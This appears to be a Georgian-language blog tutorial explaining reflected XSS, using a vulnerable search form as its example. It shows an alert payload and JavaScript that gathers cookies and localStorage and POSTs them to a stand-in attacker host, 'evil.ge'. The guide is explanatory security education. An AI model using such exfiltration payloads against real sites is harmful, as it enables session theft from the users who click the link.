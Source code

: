```yaml
---
title: "Reflected XSS შეტევები"
date: 2024-11-11 16:02:00 +0400
categories: [CyberSecurity, Guides]
tags: [Explanation]
---
```


## ფიშინგი?

საკმაოდ საინტერესოა `Reflected XSS` შეტევები. ზოგადად, რა არის`XSS`? `XSS` არის `Cross-Site Scripting`, რაც იდეაში მოისაზრებს `JavaScript`-ის კოდის ფრონტზე ინექციას.

ანუ, გამოდის, რომ `XSS` შეტევისას, მანიპულაცია ხდება საიტის `JavaScript` კოდზე.

ახლა, რა შუაშია `ფიშინგი`? როდესაც საქმე `Reflected XSS` შეტევასთან გვაქვს, აქ უმეტეს შემთხვევაში მომხმარებლის მოტყუებასთან მიდის საქმე.

სანამ ფიშინგის მაგალითს განვიხილავ, ჯერ უნდა ავხსნა თუ როგორ მუშაობს `XSS` შეტევა.

## URL პარამეტრები

`URL` პარამეტრები არის ცვლადები, რომლებიც გადაეცემა საიტის `Backend`-ს, შემდგომი დამუშავებისათვის. მაგალითად, თუ საიტს აქვს `Login` სისტემა, `URL` შესაძლოა იყოს ასეთი:

```
http://example.com/login.php?username=admin&password=admin
```

აქ ორი პრობლემაა:

1. საიტი არის დაუშიფრავი, ანუ `http://` არის გამოყენებული და `MiTM`-ის შედეგად შესაძლებელია ინფორმაციის ამოღება.
2. მომხმარებლის სახელი და პაროლი `URL`-ში დევს, რის გამოც სულ, რომ `https://` ტრაფიკი იყოს და `SSL/TLS` იცავდეს ინფორმაციას, `URI`-ში მაინც გამოჩნდება მომხმარებლის სახელი და პაროლი.

ამ პრობლემის მოგვარება ასე შეგვიძლია: ავაწყოთ `JSON` მონაცემები და ჩავსვათ `Body`-ში:

```
----
...Headers...
----

{
	"username": "admin",
	"password": "admin"
}
```

ეს კიდევ უკეთესია. მაგრამ აქ ახლა საერთოდ სხვა რამეს განვიხილავ. საქმე ისაა, რომ თუ ჰაკერმა შეძლო ამ პარამეტრებში `JS` კოდის ინექცია და საიტზე მანიპულაცია, მაშინ თუ ის ლინკს გაუგზავნის სამიზნეს, ის ზიანს მიიღებს.

#### მაგალითი

დავუშვათ, მოცემულია `Search` ფორმა, სადაც შეიძლება ჩაიწეროს ტექსტი და ამ ტექსტის მიხედვით მონაცემთა ბაზიდან წამოვიდეს შესაბამისი პროდუქცია/პოსტები ან ა.შ.

რა თქმა უნდა, `SQLi`-ც შეიძლება გაიპაროს, მაგრამ ახლა `XSS` განვიხილოთ. იმ შემთხვევაში, თუ დეველოპერმა ვერ გაფილტრა მომხმარებლის მიერ შეყვანილი ინფორმაცია სწორად, მაშინ შეიძლება `JS` კოდის ჩაწერა.

```javascript
alert("XSS");
```

ეს, რომ ჩაიწეროს ძებნის ველში, ამოხტება `Pop-Up`, რომელიც გამოიტანს ტექსტს:

```
XSS
```

ეს კიდევ არაფერი, ძალიან მარტივი მაგალითია. თუ ამან იმუშავა, მაშინ ნებისმიერი `JS` კოდი იმუშავებს.

ახლა `Cookie`-ების და `LocalStorage Item`-ების მოპარვა ვცადოთ:

```javascript
const cookies = document.cookie;
let localStorageValues = [];

for(let counter = 0; counter < localStorage.length; counter++){
	const key = localStorage.key();

	const value = localStorage.getItem(key);
	localStorageValues.push({ key, value });
}
```

ამ კოდს თუ `search`-ში ჩავწერთ, ამას მივიღებთ:

```
http://example.com/search.php?by=let localStorageValues = []; for(let counter = 0; counter < localStorage.length; counter++) { const key = localStorage.key(counter); const value = localStorage.getItem(key); localStorageValues.push({ key, value }); }
```

ამ შემთხვევაში, `fetch` ლოგიკა არ ჩამიშენებია, მაგრამ, რა თქმა უნდა მისი დამატებაც შესაძლებელია:

```javascript
/* კოდი */

const serializedLocalStorageValues = JSON.stringify(localStorageValues);

fetch("http://evil.ge", {
	method: "POST",
	headers: {
		"Content-Type": "application/json"
	},
	body: serializedLocalStorageValues
});
```

ამის დამატების შემდეგ, თუ მომხმარებელი გადავა ზემოთ მოცემულ ლინკზე, მისი `cookie`-ები და ის ინფორმაცია, რომელიც `localStorage`-ში ინახებოდა, გაიგზავნება `http://evil.ge`-ზე, `POST` მოთხოვნით.

რა თქმა უნდა, თანამედროვე ბრაუზერები იცავენ მომხმარებლებს ასეთი შემთხვევებისგან, მაგრამ კარგად აწყობილი ობფუსკაციით, მაინც შეიძლება მათი მოტყუება.

